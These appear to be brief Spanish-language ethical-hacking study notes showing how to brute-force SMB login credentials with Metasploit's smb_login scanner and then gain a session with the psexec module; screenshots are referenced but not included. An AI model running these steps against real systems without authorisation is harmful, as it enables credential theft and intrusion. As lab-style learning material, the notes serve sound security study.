 #Mestasploit #PinguinoMario #HackingEtico 
Utilizamos un ataque de fuerza bruta contra el protocolo smb y obtenemos las credenciales:
```bash
use auxiliary/scanner/smb/smb_login
```
![[Pasted image 20230730161556.png]]
Podemos usar el módulo de psexec para iniciar sesión con dichas credenciales:
```bash
use exploit/windows/smb/psexec
```
![[Pasted image 20230730161744.png]]

